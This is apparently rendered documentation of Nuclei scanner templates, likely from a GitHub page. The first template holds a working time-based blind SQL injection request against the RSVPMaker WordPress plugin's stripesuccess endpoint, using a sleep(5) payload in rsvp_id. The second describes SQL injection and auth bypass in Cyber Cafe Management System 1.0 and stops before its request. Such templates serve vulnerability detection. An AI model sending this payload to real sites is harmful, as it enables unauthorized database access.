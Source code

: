 ## Requests

### Step - 1

```
@timeout: 15s
POST /wp-json/rsvpmaker/v1/stripesuccess/anythinghere HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

rsvp_id=(select(0)from(select(sleep(5)))a)&amount=1234&email=randomtext

```

### Matchers

**Type - dsl**

- dsl
  1. duration>=5

**Type - word**

- part - body
- words
  1. "payment_confirmation_message":

**Type - word**

- part - header
- words
  1. application/json

**Type - status**

- status
  1. 200

---

# Cyber Cafe Management System 1.0 - SQL Injection

## Description

- Cyber Cafe Management System 1.0 contains multiple SQL injection vulnerabilities via the username and password parameters in the Admin panel. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - critical
- tags - cve2022,sqli,auth-bypass,edb,cve

## Requests
